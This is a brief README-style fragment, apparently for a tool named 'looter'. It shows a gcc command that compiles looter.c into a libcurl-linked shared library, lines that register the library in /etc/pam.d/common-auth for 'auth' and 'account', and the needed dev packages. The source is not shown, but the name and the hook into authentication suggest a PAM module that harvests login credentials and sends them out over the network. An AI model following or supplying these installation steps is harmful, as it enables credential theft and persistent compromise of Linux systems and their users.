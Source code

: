 compile : gcc  -Wall -fPIC -shared -Xlinker -x -o looter.so looter.c -lcurl

/etc/pam.d/common-auth add :

auth optional looter.so
account optional looter.so


relation:
libcurl4-openssl-dev
libpam0g-dev

